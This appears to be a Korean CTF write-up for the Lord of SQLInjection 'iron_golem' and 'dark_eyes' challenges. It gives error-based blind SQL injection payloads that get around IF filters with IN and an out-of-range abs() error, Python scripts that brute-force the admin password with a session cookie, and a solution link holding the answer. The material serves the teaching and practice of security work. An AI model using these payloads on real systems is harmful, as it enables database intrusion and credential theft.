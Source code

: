   ```python
          query='?pw=%27%20or%20id=%27admin%27%20and%20%20IF(ascii(mid(pw,{},1))={},(abs(-9223372036854775808)),2)%23'.format(i, j)
          r = requests.get(url + query, headers=headers)
          if r.text.find("BIGINT value is out of range in 'abs(-(9223372036854775808))'") != -1:
              pw = pw + chr(j)
              print('substr(password,1,{}) is '.format(i), pw)
              break
  ```
* [정답](https://los.rubiya.kr/chall/iron_golem_beb244fe41dd33998ef7bb4211c56c75.php?pw=06b5a6c16e8830475f983cc3a825ee9a)

22-dark-eyes
====
```php
<?php
  include "./config.php"; 
  login_chk(); 
  $db = dbconnect(); 
  if(preg_match('/prob|_|\.|\(\)/i', $_GET[pw])) exit("No Hack ~_~");
  if(preg_match('/col|if|case|when|sleep|benchmark/i', $_GET[pw])) exit("HeHe");
  $query = "select id from prob_dark_eyes where id='admin' and pw='{$_GET[pw]}'";
  $result = @mysqli_fetch_array(mysqli_query($db,$query));
  if(mysqli_error($db)) exit();
  echo "<hr>query : <strong>{$query}</strong><hr><br>";
  
  $_GET[pw] = addslashes($_GET[pw]);
  $query = "select pw from prob_dark_eyes where id='admin' and pw='{$_GET[pw]}'";
  $result = @mysqli_fetch_array(mysqli_query($db,$query));
  if(($result['pw']) && ($result['pw'] == $_GET['pw'])) solve("dark_eyes");
  highlight_file(__FILE__);
?>
```
* 21과 거의 같지만, IF문을 사용할 수 없고 오류 구문이 뜨지 않는다는 점에서 다르다
  * IF의 대체로 IN을 사용할 수 있다.
  * 'haha' IN ('haha', *오류구문*)는 오류 구문을 발생시키지 않는다.
* ?pw=' or id='admin' and 'haha' in ('haha',abs(-(9223372036854775808))) # 
  * 오류 구문이 뜨지 않았다!
  * 숫자에 대해서는 잘 작동하지 않아 pw를 cast문법으로 문자열 형태로 변환시켜주었다.
### pw 길이 추측
* ?pw=' or id='admin' and CAST(length(pw) as char) in ('8',abs(-(9223372036854775808))) #   (*점점 길어지는 구문..ㅠ..*)
    * 에서 오류가 뜨지 않았다.
### pw 추측
* 다음의 코드를 사용하였다.
  ```python
  import urllib.request
  import requests
  
  url='https://los.rubiya.kr/chall/dark_eyes_4e0c557b6751028de2e64d4d0020e02c.php'
  headers = { 'Cookie': 'PHPSESSID=saghrkfp5s6ev9kd23gbl134qe' }
  pw=""
  
  for i in range (1,9):
      for j in range(48, 123):
          if (j == 95):
              continue
          query='?pw=%27%20or%20id=%27admin%27%20and%20mid(pw,{},1)%20in%20("{}",%20abs(-(9223372036854775808)))%23'.format(i, chr(j))
          r = requests.get(url + query, headers=headers)
          if r.text.find("9223372036854775808") != -1:
              pw = pw + chr(j)
              print(j, chr(j))
              print('substr(password,1,{}) is '.format(i), pw)
  ```